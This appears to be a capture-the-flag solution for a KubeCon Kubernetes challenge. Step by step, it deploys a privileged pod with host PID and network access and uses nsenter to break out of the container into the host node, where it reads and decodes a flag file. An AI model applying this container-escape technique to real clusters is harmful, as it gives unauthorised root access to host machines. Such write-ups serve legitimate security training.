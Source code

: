 # Challenge 1 - Aut0m0tiv3 - Solution

Connect to GKE cluster:
```bash
gcloud container clusters get-credentials kubecon-na-22-ctf-1 --zone europe-central2-a --project cilium-dev
```

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true:
```bash
cat car-the-privileged-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: car-the-privileged-pod
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: car-the-privileged-pod
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:
```bash
kubectl apply -f car-the-privileged-pod.yaml
pod/car-the-privileged-pod created
```

Exec into pod:
```bash
kubectl exec -it car-the-privileged-pod -- /bin/bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/#
```

Enter into all the namespaces:
```bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / #
```

Find the flag:
```bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:
```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:
```bash
base64 -d /home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

Open the link, get the car picture :)
